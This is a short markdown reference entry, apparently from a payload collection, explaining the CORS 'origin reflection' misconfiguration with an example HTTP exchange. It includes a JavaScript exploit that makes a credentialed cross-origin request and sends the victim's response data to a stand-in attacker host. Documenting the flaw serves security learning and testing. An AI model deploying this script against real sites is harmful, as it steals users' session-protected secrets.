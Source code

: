 # Origin Reflection

## Description

Short: Host allows any origin to make requests to it.

Detailed: Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.

**Severity**: High

## Exploit 
Make requests from any domain you control.

### Example 
**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://hacker.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `hacker.com`
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-origin-reflection)
